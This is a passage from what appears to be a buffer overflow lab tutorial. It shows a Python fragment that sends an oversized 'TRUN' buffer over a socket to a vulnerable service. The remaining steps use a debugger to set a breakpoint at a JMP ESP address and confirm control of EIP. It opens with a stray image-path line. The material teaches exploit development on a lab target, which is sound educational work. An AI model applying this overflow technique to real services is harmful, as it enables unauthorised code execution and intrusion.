 ```python
    print(f'[+] Sending buffer: {str(len(buff))} bytes')
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((address,port))
    s.recv(1024)
    s.send(b"TRUN /.:/%s" % buff)
except RuntimeError as err:
    print(f'[!] Unable to connect to the application. {err}')
    sys.exit(0)
finally:
    s.close()
```

Now to verify if everything is in place we can add a breakpoint at the JMP ESP address.

Search for the address space

![Find Address](images/BO_find_address.png)

Press F2 to add a breakpoint

![Breakpoint](images/BO_breakpoint.png)

Now if we run our python script we can verify that EIP is pointing at the JMP ESP

![Stoped on JMP ESP](images/BO_stoped_on_JMP_ESP.png)
